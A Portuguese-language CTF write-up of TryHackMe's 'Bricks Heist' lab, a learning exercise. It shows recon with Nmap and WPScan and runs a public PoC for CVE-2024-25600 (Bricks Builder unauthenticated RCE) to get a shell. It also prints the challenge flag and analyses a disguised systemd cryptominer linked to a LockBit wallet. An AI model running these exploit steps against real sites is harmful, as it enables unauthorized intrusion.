






# 🧱 TryHack3M: Bricks Heist — CTF Writeup
### TryHackMe | Web Exploitation · CVE-2024-25600 (Bricks Builder RCE) · Investigação de Incidente (Cryptomining/LockBit)

---

| **Analista**          | Mauricio Robert                                                                        |
|-----------------------|----------------------------------------------------------------------------------------|
| **Organização**       | Faculdade Impacta                                                                      |
| **Data do Relatório** | 24/08/2026                                                                             |
| **Data do Pentest**   | 23/08/2026 · 20:28 – 20:51 (GMT+0000)                                                  |
| **Alvo**              | `bricks.thm` (`10.67.180.225`) — TryHackMe · TryHack3M: Bricks Heist                   |
| **Classificação**     | CONFIDENCIAL                                                                           |
| **Ferramentas**       | Nmap · WPScan · CVE-2024-25600-EXPLOIT (Python PoC) · systemctl/ps · OSINT (Brave Search) |
| **Plataforma**        | TryHackMe — Web Exploitation / Incident Response                                       |

---

## 🔍 Resumo Executivo

Este relatório documenta o comprometimento completo do desafio **TryHack3M: Bricks Heist** (TryHackMe), que simula tanto uma exploração ofensiva quanto uma **investigação de incidente** sobre a aplicação **Brick by Brick** (WordPress rodando o tema **Bricks Builder**). A cadeia de ataque envolveu: reconhecimento de rede via **Nmap**, identificando um site WordPress 6.5 em HTTPS (porta 443), SSH (porta 22), MySQL não autenticado (porta 3306) e um serviço HTTP atípico baseado em Python/WebSockify (porta 80); enumeração da aplicação com **WPScan**, que confirmou o WordPress 6.5, o tema **Bricks v1.9.5** e o usuário `administrator`; identificação de que essa versão do tema é vulnerável ao **CVE-2024-25600** (Remote Code Execution não autenticado no Bricks Builder); exploração da falha com uma **PoC pública em Python**, obtendo uma **shell interativa** como usuário `apache` e capturando a flag do desafio diretamente no diretório raiz da aplicação. Na sequência, o desafio evolui para uma etapa de **resposta a incidente**: a enumeração de processos e serviços do sistema revelou um **serviço systemd malicioso disfarçado** (`ubuntu.service`, descrito internamente como `TRYHACK3M`) executando um binário mascarado de componente do NetworkManager (`/lib/NetworkManager/nm-inet-dialog`), responsável por um **cryptominer** ativo há meses no host. A análise de um arquivo de configuração relacionado (`/lib/NetworkManager/inet.conf`) revelou uma **carteira Bitcoin** (`bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`), que pesquisas OSINT associaram publicamente ao grupo de ransomware **LockBit**, confirmando que a máquina já havia sido comprometida previamente e utilizada como infraestrutura de mineração de criptomoedas ligada a essa ameaça.

---

## 🛠 Ferramentas Utilizadas

| Ferramenta                          | Versão / Detalhe            | Finalidade                                                                             |
|--------------------------------------|-----------------------------|-----------------------------------------------------------------------------------------|
| **Nmap**                              | 7.99                        | Varredura de portas e serviços do alvo `bricks.thm`                                     |
| **WPScan**                             | -                            | Enumeração de versão do WordPress, tema, plugins e usuários                             |
| **CVE-2024-25600-EXPLOIT**            | PoC Python (by K3ysTr0K3R)  | Exploração do RCE não autenticado no tema Bricks Builder                                |
| **systemctl / ps**                    | -                            | Enumeração de processos e serviços do sistema comprometido (resposta a incidente)        |
| **Brave Search (OSINT)**              | -                            | Atribuição da carteira Bitcoin encontrada a atividade do grupo LockBit                  |

---

## 📋 Fases de Comprometimento

### FASE 1 — Reconhecimento de Rede (Nmap)

A varredura inicial contra o alvo `bricks.thm` (`10.67.180.225`) revelou:

```bash
sudo nmap -sV -sC -Pn -T4 10.67.180.225
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Python http.server 3.5 - 3.10
|_http-title: Error response
|_http-server-header: WebSockify Python/3.8.10
443/tcp  open  ssl/http Apache httpd
|_http-title: Brick by Brick
|_http-generator: WordPress 6.5
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Os achados principais foram:

- **Porta 443**: aplicação **Brick by Brick**, um site **WordPress 6.5**, com `robots.txt` bloqueando `/wp-admin/` (padrão de instalação WordPress).
- **Porta 80**: um serviço HTTP atípico servido por **Python http.server / WebSockify** — provavelmente parte da infraestrutura de laboratório, não da aplicação alvo.
- **Porta 3306**: **MySQL** exposto, porém não autenticado remotamente.
- **Porta 22**: **OpenSSH 8.2p1** em Ubuntu.


O certificado SSL da porta 443 confirmou o padrão genérico de instalação (`Internet Widgits Pty Ltd`), sem indícios de customização — reforçando que o alvo principal seria a própria aplicação WordPress.

---

### FASE 2 — Enumeração da Aplicação WordPress (WPScan)

Com o alvo identificado como WordPress, uma varredura agressiva com **WPScan** foi executada, revelando informações críticas sobre a stack da aplicação:

```
[+] robots.txt found: https://bricks.thm/robots.txt
  - /wp-admin/
  - /wp-admin/admin-ajax.php

[+] XML-RPC seems to be enabled: https://bricks.thm/xmlrpc.php

[+] WordPress version 6.5 identified (Insecure, released on 2024-04-02)

[+] WordPress theme in use: bricks
  | Style URI: https://bricksbuilder.io/
  | Description: Visual website builder for WordPress...
  | Version: 1.9.5 (80% confidence)
  | Found By: Style (Passive Detection)
  |  - https://bricks.thm/wp-content/themes/bricks/style.css, Match: 'Version: 1.9.5'

[+] Enumerating Users (via Passive and Aggressive Methods)
[i] User(s) Identified:
[+] administrator
```

Esse levantamento confirmou dois pontos decisivos para a exploração:

1. O site utiliza o tema **Bricks Builder na versão 1.9.5** — uma versão **anterior à correção do CVE-2024-25600**, uma vulnerabilidade crítica de **Remote Code Execution não autenticado**.
2. O usuário administrativo **`administrator`** foi identificado, confirmando a superfície de ataque, ainda que a exploração escolhida não dependesse de credenciais.


> 🚨 **Vulnerabilidade identificada: Bricks Builder Theme < 1.9.6 — Unauthenticated Remote Code Execution (CVE-2024-25600).**

---

### FASE 3 — Exploração: CVE-2024-25600 (Bricks Builder RCE)

Com a versão vulnerável confirmada, uma **PoC pública em Python** (`CVE-2024-25600-EXPLOIT`, desenvolvida por *K3ysTr0K3R*) foi utilizada para explorar a falha:

```bash
python3 CVE-2024-25600.py -h
```

```
usage: CVE-2024-25600.py [-h] [-u URL] [-t THREADS] [-f FILE]

A PoC exploit for CVE-2024-25600 - WordPress Bricks Builder Remote Code Execution (RCE)

options:
  -h, --help            show this help message and exit
  -u, --url URL         Target URL to exploit
  -t, --threads THREADS Adjust threading to your needs
  -f, --file FILE       File containing URLs to scan
```

Uma primeira tentativa apontando diretamente para `wp-login.php` não teve sucesso (a ferramenta espera a URL base da aplicação). Corrigindo o alvo para a raiz do site:

```bash
python3 CVE-2024-25600.py -u https://bricks.thm
```

```
[*] Checking if the target is vulnerable
[+] The target is vulnerable
[*] Initiating exploit against: https://bricks.thm
[*] Initiating interactive shell
[+] Interactive shell opened successfully
Shell> ls
650c844110baced87e1606453b93f22a.txt
index.php
kod
license.txt
phpmyadmin
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
...
xmlrpc.php
```


A exploração confirmou o alvo como vulnerável e retornou uma **shell interativa** rodando no contexto do webserver (usuário `apache`, conforme evidenciado posteriormente na Fase 5), executada via chamadas `eval()` dentro do próprio código do tema Bricks (`wp-content/themes/bricks/includes/elements/code.php`) — o núcleo da falha do CVE-2024-25600.

---

### FASE 4 — Captura da Flag

Dentro do diretório raiz da aplicação, um arquivo com nome em hash chamou atenção durante a listagem (`650c844110baced87e1606453b93f22a.txt`). Seu conteúdo foi lido diretamente pela shell obtida na exploração:

```bash
Shell> cat 650c844110baced87e1606453b93f22a.txt
```

```
THM{fl46_650c844110baced87e1606453b93f22a}
```


> 🚩 **FLAG CAPTURADA: `THM{fl46_650c844110baced87e1606453b93f22a}`**

---

### FASE 5 — Investigação Pós-Exploração: Sinais de Comprometimento Prévio

Após a captura da flag, a shell obtida foi utilizada para uma etapa adicional de **triagem/resposta a incidente**, investigando se o host já apresentava sinais de comprometimento anterior à exploração realizada. A listagem de processos revelou a shell rodando sob o usuário **`apache`**:

```
apache   2652  0.0  0.0   2616   536 ?  S  19:06  0:00 sh -c cd '/data/www/default' ; ps aux
apache   2653  0.0  0.0  10620  3368 ?  R  19:06  0:00 ps aux
```

Em seguida, a enumeração de serviços ativos via `systemctl` identificou uma entrada suspeita, com nome deliberadamente genérico para se camuflar entre serviços legítimos do sistema:

```bash
Shell> systemctl | grep running
...
ubuntu.service   loaded active running   TRYHACK3M
...
```

A inspeção da unit revelou seu verdadeiro propósito:

```bash
Shell> systemctl cat ubuntu.service
```

```ini
# /etc/systemd/system/ubuntu.service
[Unit]
Description=TRYHACK3M

[Service]
Type=simple
ExecStart=/lib/NetworkManager/nm-inet-dialog
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

O serviço, nomeado como `ubuntu.service` (um nome genérico para passar despercebido), na verdade executa um binário **mascarado como componente do NetworkManager** (`/lib/NetworkManager/nm-inet-dialog`) — um clássico artifício de **living-off-the-land / masquerading** para dificultar a detecção em uma inspeção superficial do sistema.


> 🚨 **Indício de Persistência Maliciosa: serviço systemd disfarçado (`ubuntu.service` → `Description=TRYHACK3M`) executando um binário camuflado dentro de `/lib/NetworkManager/`.**

---

### FASE 6 — Atribuição da Ameaça: Cryptominer e Carteira Ligada ao LockBit

Investigando further o diretório `/lib/NetworkManager/`, um arquivo de configuração (`inet.conf`) — nome escolhido para se misturar com arquivos legítimos do NetworkManager — apresentava logs extensos de atividade de mineração:

```
2025-11-05 21:57:43,607 [*] confbak: Ready!
2025-11-05 21:57:43,607 [*] Status: Mining!
2025-11-05 21:57:47,612 [*] Bitcoin Miner Thread Started
2025-11-05 21:57:47,612 [*] Status: Mining!
2025-11-05 21:57:49,613 [*] Miner()
...
ID: 5757314d6d47e6596248da4f66d787457544e424e574648555446684d3070735930684b616c...
```

Uma busca direcionada pela carteira Bitcoin referenciada no arquivo confirmou a natureza maliciosa do achado:

```bash
Shell> cat /lib/NetworkManager/inet.conf | grep "bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa"
```

Pesquisas OSINT sobre o endereço **`bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`** confirmaram associação pública dessa carteira com o grupo de ransomware **LockBit**, uma organização conhecida por operar sob o modelo **Ransomware-as-a-Service (RaaS)** com táticas de **dupla extorsão** — reforçando que o host já era, antes mesmo desta exploração, parte da infraestrutura de mineração de criptomoedas associada a essa ameaça.


> 🚨 **Atribuição: carteira Bitcoin `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa` associada publicamente ao grupo LockBit, identificada em arquivo de configuração de um cryptominer ativo no host (`/lib/NetworkManager/inet.conf`).**

---

## ⛓ Linha do Tempo do Comprometimento

```
[20:28 GMT] FASE 1 — RECONHECIMENTO (Nmap)
    bricks.thm (10.67.180.225) → WordPress 6.5 (443), SSH (22), MySQL (3306)
    ↓
[~20:30 GMT] FASE 2 — ENUMERAÇÃO (WPScan)
    Tema Bricks Builder v1.9.5 identificado — versão vulnerável ao CVE-2024-25600
    Usuário 'administrator' enumerado
    ↓
[FASE 3] EXPLORAÇÃO — CVE-2024-25600
    PoC Python contra https://bricks.thm → RCE não autenticado confirmado
    Shell interativa obtida como usuário 'apache'
    ↓
[FASE 4] CAPTURA DA FLAG
    cat 650c844110baced87e1606453b93f22a.txt
    FLAG: THM{fl46_650c844110baced87e1606453b93f22a} ✓
    ↓
[FASE 5] INVESTIGAÇÃO DE INCIDENTE
    systemctl → serviço malicioso disfarçado 'ubuntu.service' (Description=TRYHACK3M)
    ExecStart=/lib/NetworkManager/nm-inet-dialog (binário mascarado)
    ↓
[FASE 6] ATRIBUIÇÃO DA AMEAÇA
    /lib/NetworkManager/inet.conf → logs de cryptomining + carteira BTC
    bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa → associada ao grupo LockBit (OSINT)
    ↓
[20:51 GMT] DESAFIO CONCLUÍDO — RCE explorado + infraestrutura maliciosa identificada
```

---

## 🗺 Mapeamento Investigativo

| Fase | Ferramenta/Técnica | Achado |
|------|--------------------|--------|
| Reconhecimento | Nmap (`-sV -sC -Pn`) | WordPress 6.5 em HTTPS (443), SSH (22), MySQL não autenticado (3306) |
| Enumeração | WPScan (agressivo) | Tema Bricks Builder v1.9.5, usuário `administrator`, XML-RPC habilitado |
| Identificação da Falha | Análise de versão | Bricks Builder < 1.9.6 vulnerável ao CVE-2024-25600 (RCE não autenticado) |
| Exploração | PoC Python (CVE-2024-25600-EXPLOIT) | Shell interativa obtida como usuário `apache` |
| Resultado Imediato | Shell obtida | Flag capturada em `650c844110baced87e1606453b93f22a.txt` |
| Resposta a Incidente | `systemctl` / `ps aux` | Serviço `ubuntu.service` disfarçado executando binário malicioso |
| Atribuição de Ameaça | Análise de arquivo + OSINT | Carteira BTC associada ao grupo LockBit em `/lib/NetworkManager/inet.conf` |

---

## 🚨 Artefatos e Indicadores Identificados

| Tipo | Indicador | Contexto |
|------|-----------|----------|
| Alvo | `bricks.thm` (`10.67.180.225`) | Aplicação WordPress "Brick by Brick" (TryHackMe — TryHack3M: Bricks Heist) |
| Stack identificada | WordPress 6.5 + Tema Bricks Builder v1.9.5 | Confirmada via WPScan (`style.css`, `readme.txt`) |
| Vulnerabilidade | CVE-2024-25600 | RCE não autenticado no tema Bricks Builder (< 1.9.6) |
| Contexto de execução | Usuário `apache` | Processo da shell obtida via exploração, rodando em `/data/www/default` |
| Flag do desafio | `THM{fl46_650c844110baced87e1606453b93f22a}` | Encontrada em arquivo na raiz da aplicação após o RCE |
| Persistência maliciosa | Serviço `ubuntu.service` (Description=`TRYHACK3M`) | Systemd unit disfarçado, `ExecStart=/lib/NetworkManager/nm-inet-dialog` |
| Binário mascarado | `/lib/NetworkManager/nm-inet-dialog` | Nomeado para se passar por componente legítimo do NetworkManager |
| Arquivo de configuração malicioso | `/lib/NetworkManager/inet.conf` | Contém logs de mineração ("Miner()", "Bitcoin Miner Thread Started") |
| Carteira Bitcoin (IOC) | `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa` | Associada publicamente ao grupo de ransomware LockBit |
| Técnica (OWASP) | Injection / Unauthenticated RCE | Falha de validação em elemento do tema Bricks Builder (`code.php`, uso de `eval()`) |
| Técnica (MITRE ATT&CK) | `T1190` (Exploit Public-Facing Application) | Exploração do CVE-2024-25600 |
| Técnica (MITRE ATT&CK) | `T1036` (Masquerading) | Serviço e binário maliciosos nomeados para se camuflar como componentes legítimos |
| Técnica (MITRE ATT&CK) | `T1543.002` (Create/Modify System Process: Systemd Service) | Persistência via unit systemd customizada |
| Técnica (MITRE ATT&CK) | `T1496` (Resource Hijacking) | Cryptomining não autorizado no host comprometido |

---

## ✅ Resumo da Flag

| # | Flag | Valor | Origem |
|---|------|-------|--------|
| 🚩 Flag | Arquivo na raiz da aplicação, pós-RCE | `THM{fl46_650c844110baced87e1606453b93f22a}` | `cat 650c844110baced87e1606453b93f22a.txt` via shell obtida com CVE-2024-25600 |

---

## 📚 Referências

- [TryHackMe — TryHack3M: Bricks Heist](https://tryhackme.com/room/tryhack3mbricksheist)
- [NVD — CVE-2024-25600](https://nvd.nist.gov/vuln/detail/CVE-2024-25600)
- [WPScan — Bricks Theme < 1.9.6 - Unauthenticated Remote Code Execution](https://wpscan.com/vulnerability/)
- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK T1036 — Masquerading](https://attack.mitre.org/techniques/T1036/)
- [MITRE ATT&CK T1496 — Resource Hijacking](https://attack.mitre.org/techniques/T1496/)

---